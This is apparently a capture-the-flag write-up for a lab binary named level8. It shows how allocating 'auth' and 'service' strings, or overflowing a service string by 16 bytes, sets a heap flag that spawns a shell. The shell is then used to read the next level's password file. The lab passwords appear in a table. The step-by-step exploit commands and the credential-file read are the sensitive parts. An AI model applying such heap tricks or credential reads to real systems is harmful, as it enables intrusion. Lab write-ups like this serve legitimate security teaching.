 # Level8 - Very long main

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| level8 | `5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9` |
| level9 | `c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

Execute level8

```shell
./level8
> (nil), (nil)
a
> (nil), (nil)
b
(...)
```

Lets debug the binary

```shell
(gdb) info functions
0x08048564  main
```

See our assembly interpretation in [source file](../source.c)

To access to the new access, the byte at `*auth + 0x20` has to be not null.

It means `0x804a008 + 0x20` => `0x804a028` has to be not null

First we have to define `auth`:

```shell
~/level8
> (nil), (nil) # auth, service
auth a
> 0x804a008, (nil)  # auth, service
```

Malloc returns a pointer to `0x804a008`

If the input is "service", it calls `strdup` and allocates a new part of memory.

```shell
service
> 0x804a008, 0x804a018  # auth, service
```

The pointer `service` aims to 0x804a018.

Two solutions:

- either allocate a new part of memory starting at `0x804a028` using `strdup`:

```shell
> 0x804a008, 0x804a018  # auth, service
service
> 0x804a008, 0x804a028 # auth, service
login
$ # here the shell is
```

- _(after restart ./level8 to set `service` at `null`)_ <br />
  or write a string big enough to erase the address `0x804a028`: (`0x804a028 - 0x804a010 = 0x10` => 16 bytes)

```shell
> 0x804a008, (nil)  # auth, service
service0123456789abcdef
> 0x804a008, 0x804a028 # auth, service
login
$ # here the shell is
```

Finally we can get the pass !

```shell
$ whoami
> level9
$ cat /home/user/level9/.pass
> c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

---

## Sources

### ASM

- [What do the assembly instructions 'seta' and 'setb' do after repz cmpsb?](https://stackoverflow.com/questions/44630262/what-do-the-assembly-instructions-seta-and-setb-do-after-repz-cmpsb/44630741)
- [REPNZ SCAS Assembly Instruction Specifics](https://stackoverflow.com/questions/26783797/repnz-scas-assembly-instruction-specifics)
- [x86 Registers](https://www.eecg.utoronto.ca/~amza/www.mindsec.com/files/x86regs.html)
- [x86 Instruction Set Reference - REP/REPE/REPZ/REPNE/REPNZ](https://c9x.me/x86/html/file_module_x86_id_279.html)

### Shell

- [Man fgets](https://linux.die.net/man/3/fgets)
- [Man free](https://linux.die.net/man/3/free)
- [Man fwrite](https://linux.die.net/man/3/fwrite)
- [Man malloc](https://linux.die.net/man/3/malloc)
- [Man printf](https://linux.die.net/man/3/printf)
- [Man strcpy](https://linux.die.net/man/3/strcpy)
- [Man strdup](https://linux.die.net/man/3/strdup)
- [Man system](https://linux.die.net/man/3/system)

```

```
